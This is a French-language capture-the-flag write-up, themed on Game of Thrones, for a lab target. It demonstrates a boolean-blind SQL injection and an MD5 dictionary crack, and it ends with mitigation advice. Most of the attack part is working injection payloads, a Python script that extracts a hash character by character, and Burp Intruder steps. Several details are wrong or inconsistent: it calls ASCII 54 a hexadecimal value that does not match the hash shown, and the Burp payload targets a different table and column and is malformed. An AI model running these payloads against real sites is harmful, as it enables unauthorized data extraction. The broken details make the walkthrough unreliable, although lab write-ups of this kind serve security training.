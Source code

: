 ```yaml
---
title: CWE-89 & CWE-328 - Injection SQL Boolean Blind & Hash MD5 Faible
next: "/write-ups/wu7"
prev: "/write-ups/wu5"
---
```


# 🏰 CTF - Injection SQL Boolean Blind & Hash MD5 Faible

## 🎯 Objectif
Bravo ! Tu es dans **Castral-Roc**, dans la salle du mestre où sont stockées des **informations confidentielles des Lannister**. Parmi elles, un livre recensant **les alliés et espions infiltrés** dans les familles de Westeros.

**Mission** : Trouver **l’espion infiltré chez les Stark à Winterfell** et récupérer **son hash MD5**.

### 🔹 Informations de la table `allies`
- `username` : Nom de l’individu (hashé en MD5)
- `relation` : **famille / allié / espion / ennemi**
- `localisation` : Lieu d'opération

📌 **Problèmes de sécurité** :
- **Injection SQL Boolean Blind (`CWE-89`)** permettant d’extraire les données cachées.
- **Stockage MD5 (`CWE-328`)** permettant une attaque par dictionnaire.

📌 **Flag 1** : Le **hash MD5** du nom de l’espion infiltré chez les Stark à Winterfell.
📌 **Flag 2** : Le **nom de l’espion en clair** (`orland mertens`).

---

## ⚙️ Environnement
- **Cible :** `http://lannister.castral-roc.lannisport.south/entourage_lannister.php`
- **Base de données :** `lannisport_db`
- **Données sensibles :** Table `allies`
- **Wordlist fournie** : Liste des 5000 personnes du château

---

## 🚀 Étape 1 : Vérifier la vulnérabilité SQL
Dans le champ **Nom** du formulaire, entre :
```sql
' OR 1=1 #
```
✅ **Si la réponse est `L’utilisateur est un allié`, alors l’injection SQL fonctionne.**


---

## 🔍 Étape 2 : Tester si un espion est infiltré chez les Stark
Dans le champ **Nom**, entre :
```sql
' OR (SELECT COUNT(*) FROM allies WHERE relation='espion' AND localisation='Winterfell') > 0 #
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors un espion est bien présent.**


---

## 🕵️ Étape 3 : Exfiltrer le hash MD5 de l’espion (Boolean Blind)
Nous allons **extraire son hash MD5 caractère par caractère** en utilisant **ASCII() et SUBSTRING()**.

Dans le champ **Nom**, entre :
```sql
' OR (SELECT ASCII(SUBSTRING(username, 1, 1)) FROM allies WHERE relation='espion' AND localisation='Winterfell') = 54 #
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors le premier caractère du hash est `54` (hexadécimal).**

Répète en changeant `1, 1` par `2, 1`, `3, 1`… jusqu'à obtenir le hash MD5 complet !


---

## ⚡ Étape 4 : Automatiser l’extraction avec Python
Pour éviter une extraction manuelle, utilise ce script **Python** :
```python {filename="extract_md5.py"}
import requests

URL = "http://lannister.castral-roc.lannisport.south/entourage_lannister.php"
TRUE_RESPONSE = "L’utilisateur est un allié"
MD5_HASH = ""

for i in range(1, 33):  # Un hash MD5 fait 32 caractères hexadécimaux
    for hex_code in "0123456789abcdef":  # Valeurs hexadécimales
        payload = f"' OR (SELECT SUBSTRING(username, {i}, 1) FROM allies WHERE relation='espion' AND localisation='Winterfell') = '{hex_code}' -- "
        data = {"username": payload}
        response = requests.post(URL, data=data)

        if TRUE_RESPONSE in response.text:
            MD5_HASH += hex_code
            print(f"[+] Caractère {i} trouvé : {hex_code}")
            break

print(f"\n🚀 Hash MD5 de l'espion : {MD5_HASH}")
```

✅ **Exécute le script :**
```bash
python3 extract_md5.py
```
🚀 **Il affichera le hash MD5 complet !**


avec burp : 




BURP : 
1, ouvrir burp, et le browser intégré avec le proxy, 

2, faire requete sur http://lannister.castral-roc.lannisport.south/entourage_lannister.php

pour trouver qqun, par exemple tyrion

3, Envoyer la requete dans l'Intruder 

Mettre ensuite l'attaque en cluster bomb.

après le user on met des payloads : 

username=' AND (SELECT

SUBSTRING(password,§position_carac§,1) FROM users WHERE

relation='espion')=§carac§, ,§position_carac§

4, on va ensuite dans payloads, pour le assigner des valeurs à §position_carac§ et §carac§

pour §position_carac§ on peut entrer des nombres de 1 à 20 et pour §carac§ on peut entrer des lettres de a à z, des lettres de A à Z, et des nombres de 0 à 9

Lancer l'attaque avec start attack

Tirer ensuite pas longueur et on obtient sur chaque ligne un lettre du hash

---

## 🔑 Étape 5 : Trouver le nom de l’espion via une wordlist
Le hash MD5 de l’espion doit être comparé aux 5000 noms fournis.

### 🔹 Utilisation d’un script Python pour comparer le hash
```python
import hashlib

MD5_TARGET = "54cc047eb12722d574b528af105d9e21"  # Hash obtenu
WORDLIST = "names_5000.txt"

with open(WORDLIST, "r", encoding="utf-8") as file:
    for name in file:
        name = name.strip().lower()
        hashed_name = hashlib.md5(name.encode()).hexdigest()

        if hashed_name == MD5_TARGET:
            print(f"[+] Nom de l'espion trouvé : {name}")
            break
```

✅ **Exécute le script :**
```bash
python3 crack_md5.py
```
🚀 **Il affichera `orland mertens` !**


---

## 🏆 Validation du CTF
🚀 **Félicitations, tu as terminé la mission !** 🔥

📌 **Flag 1** : `MD5 du nom de l’espion`
📌 **Flag 2** : `orland mertens`


---

## 🔒 Mitigation & Sécurisation
- **Éviter l’injection SQL** → Utiliser **des requêtes préparées** (`mysqli_stmt_bind_param`).
- **Ne pas stocker les mots de passe / noms sensibles en MD5** → Utiliser `bcrypt`.
- **Limiter les tentatives de requêtes Boolean Blind** → Protection par `fail2ban` et `CAPTCHA`.

---

## 🎯 Conclusion
✔ **Exploitation d’une injection SQL Boolean Blind (`CWE-89`).**
✔ **Exfiltration du hash MD5 de l’espion infiltré chez les Stark.**
✔ **Brute-force du hash MD5 avec une wordlist pour retrouver `orland mertens`.**

🚀 **CTF réussi ! Prêt pour la prochaine mission ?** 🔥